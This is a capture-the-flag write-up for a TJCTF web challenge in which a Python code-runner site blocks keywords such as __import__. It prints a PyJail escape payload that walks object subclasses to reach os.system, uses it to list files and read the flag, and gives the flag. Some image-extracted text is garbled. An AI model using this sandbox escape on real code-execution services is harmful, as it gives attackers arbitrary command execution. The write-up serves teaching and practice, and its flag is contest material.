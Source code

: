 # outdated
> I found this old website that runs your python code, but the security hasn't been updated in years

> I'm sure there's a flag floating around, can you find it?

## About the Challenge
We were given a website and a source code. (You can download the source code [here](server.zip))


[Image extracted text: Python code runner
Lpload
Welcome to the TJCSC Python
code runnerl
This site is used to run your
python code (with some exceptions)
Why is this site useful?
What's special about this site?
Can
see it in action?]


So, this website can run our python code but there are some blacklisted keywords, for example: `__import__` or `__builtins__` and other restriction like we need to input ASCII character and we cant upload a very large file, etc.

## How to Solve?
This is like PyJail challs but in web version, so to solve this. Im using one of the PyJail payload:

```python
print(dict.__class__.__base__.__subclasses__()[132].__init__.__globals__["sys"].modules["os"].system("ls"))
```

And the result was


[Image extracted text: ~inav
Adiv
stylez"padding:
1Opx ;
Tour
code:
<ip
Kpre>
code>
print (dict _
class
base_
sbclasses
() [132] -_in
globals
[[934;SYs[#34;
hodules [ [ F34
05[i34;].sy
stem ( €#34;156034;) !
code>
<{pre>
Resules
0 f
code
<(p
~pre>
<code>
Dockerfile
pycache
app
PY
flag-
f879426-923b-4458-8ee6-eeb6b3a34268
trt
ru
static
cerplaces
uploads
[code>
<(pre:]


And then change the `ls` command to `cat flag-0f8794c6-9e3b-4458-8ee6-eeb6b3a34a68.txt` to obtain the flag


[Image extracted text: Inavs_
Sdiv
style=
padding:
1Opx ;
Your
code
<(p
xpre>
code>
print (dict
elass
base
subclasses_
()[132]
in
globals
[[#434;SYS[#34;
modules [[#34
Os[I34;]-sy
stem ( €#34;cat
flag-0f879426-9e3b-4458-8eee-eebeb3a34a68.txt[#34;) |
code>
~/pre>
Resules
0 f
code :
<(p
~pre>
<code>
cjcc f{oops_
bad_fileer_36582f74}
code>
~(pre>
div>
</body>]


```
tjctf{oops_bad_filter_3b582f74}
```